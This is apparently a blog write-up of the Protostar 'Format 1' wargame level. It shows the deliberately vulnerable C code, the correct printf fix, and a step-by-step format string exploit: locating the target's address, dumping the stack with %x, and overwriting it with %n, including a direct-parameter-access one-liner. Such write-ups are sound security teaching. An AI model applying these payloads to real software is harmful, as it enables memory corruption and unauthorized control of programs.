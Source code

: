 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 1"
date: 2012-01-30T18:12:00-05:00
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Following the Format 0 challenge, I've had to do a bunch of reading on how format string exploits work on a very low level. 

Some resources that I've found greatly useful: 

* [Hacking: The Art of Exploitation, 2nd Edition](http://www.amazon.com/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag=mattandcom-20&linkCode=as2&camp=1789&creative=390957&creativeASIN=1593271441)<img src="http://www.assoc-amazon.com/e/ir?t=mattandcom-20&l=as2&o=1&a=1593271441" width="1" height="1" border="0" alt="" style="border:none !important; margin:0px !important;" />
* [Exploiting Format String Vulnerabilities](http://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
* [SecurityTube.net Format String Vulnerabilities Megaprimer](http://www.securitytube.net/groups?operation=view&groupId=3)

With this challenge, we're given some c code in which we are to find the vulnerability.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
 printf(string);

 if(target) {
  printf("you have modified the target :)\n");
 }
}

int main(int argc, char **argv)
{
 vuln(argv[1]);
}
```

If you notice, there is a string format vulnerability inside the "vuln" function.  It is doing a "printf" of a string directly provided by the user.  To prevent this vulnerability, this line should read: 

```
printf("%s", string);
```

The first step of exploiting this vulnerability, would be to find the address of "target", so that we can modify it. 

```
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep target
08049638 g     O .bss   00000004              target
```

The next step, is to find the direct reference in the stack to the command argument we enter.  To do this, we can simply spam "%x", since that pops the next word off of the stack.  If we do it multiple times, eventually we'll get to where the argument is located.  I chose to do it 150 times, guessing it would be less than that. 

```
user@protostar:/opt/protostar/bin$ ./format1 AAAAAAAA`perl -e 'print "%x."x150'`
AAAAAAAA804960c.bffff628.8048469.b7fd8304.b7fd7ff4.bffff628.8048435.bffff7f0.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6a8.b7eadc76.2.bffff6d4.bffff6e0.b7fe1848.bffff690.ffffffff.b7ffeff4.804824d.1.bffff690.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6a8.8570f76f.af24e17f.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6d4.8048450.8048440.b7ff1040.bffff6cc.b7fff8f8.2.bffff7e6.bffff7f0.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7cb.1f.bffffff2.f.bffff7db.0.0.0.cf000000.4b112951.96083d4e.8dce3d07.69b25f71.363836.0.2f2e0000.6d726f66.317461.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```

If you look at that output, you'll see each byte in the stack, separated by periods.  Eventually, you should see "41414141", since the 150 number was enough.  This points to the "AAAAAAAA" we entered at the beginning of the argument.  I often find it easy to do 8 "A"s instead of 4, in case the byte is split up, and not aligned properly, giving something like "41411234.5678414141". 

Counting in, it looks like it was 128 bytes into the stack to get to.  Just to verify, let's try a little more precisely: 

```
user@protostar:/opt/protostar/bin$ ./format1 AAAA`perl -e 'print "%x."x128'`%x
AAAA804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.77ba880e.5dee1e1e.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.3b000000.34e9adc8.e1b8c42b.3212319e.690884e6.363836.0.0.2f2e0000.6d726f66.317461.41414141
```

That verifies that no additional padding needs to be done, the last word is reading perfectly. 

Next, instead of passing "AAAA" (or 0x41414141) as the address, we'll try using the address of "target": 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08" . "%x."x128'`%x
8804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.b623f0ae.9c7766be.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.98000000.88091ce4.7be8a4e7.30f01468.69a9fa50.363836.0.0.2f2e0000.6d726f66.317461.8049638
```

Note that the initial 0 is missing, but that's ok.  It seems that worked as well, so let's tell it to overwrite the memory address instead of just printing it to the screen: 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08" . "%x."x128'`%n
8804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.a61b35ff.8c4fa3ef.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.48000000.eacde3e8.ce402cfb.689377d6.699e12c7.363836.0.0.2f2e0000.6d726f66.317461.you have modified the target :)
```

There you have it.  We modified the value, which made the application output "you have modified the target :)" 

As a bonus solution, I found you can also use Direct Parameter Access, and solve it with a lot less junk on the screen: 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08"'`%128\$n
8you have modified the target :)
```